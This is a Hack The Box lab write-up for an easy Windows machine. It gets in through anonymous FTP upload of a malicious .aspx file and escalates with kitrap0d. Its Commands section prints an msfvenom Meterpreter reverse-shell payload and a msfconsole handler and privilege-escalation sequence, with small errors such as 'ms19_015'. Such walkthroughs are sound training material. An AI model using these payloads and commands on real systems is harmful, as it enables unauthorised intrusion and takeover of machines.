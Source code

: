 ![](assets/banner.png)


<p align="center">
  <img src="assets/htb.png" alt='HTB_logo'>
</p>


### Description:

- With FTP port open and Anonymous login enabled
- The system is compromised with the `malicious.aspx` file
- With the `kitrap0d` module, Administrative shell is obtained



### Difficulty:

`Windows- Easy`


#### Enumeration
- Open ports `80,21`
- FTP with `anonymous login` 
- FTP is enabled on `web dir`
- `PUT` an `.aspx` file to obtain the shell


#### Obtaining Shell
##### Metasploiot

- Running a listener in the msfconsole and requesting webpage with malicious site, reverse shell is obtained
- A low level user with minimum access is obtained

#### Privilege Escalation

- With the help of `ms10_015_kitrap0d` module the machine is rooted

#### Commands:

**Malicious .aspx file**
```bash
msfvenom -p  windows/meterpreter/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f aspx > devel.aspx
```

**Reverse Shell**
```bash
msfconsole

# normal payload configurations
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.10.45
set lport 1337

# exit and session running configurations
set ExitOnSession false
exploit -j 

# bringing back the session
sessions -i 1

# background the interactive session to run exploit suggesters
background

# run the ms19_015_kitrap0d module to obtain Administrator
search suggester
use post/multi/recon/local_exploit_suggester
set SESSION <session no>
run 
# proably the lhosts will be changed, set it correctly
set lhost 10.10.10.45
set port 4449
run 

# after successful execution of the module, a new session will be created
shell
whoami
# Administrative access is obtained 
```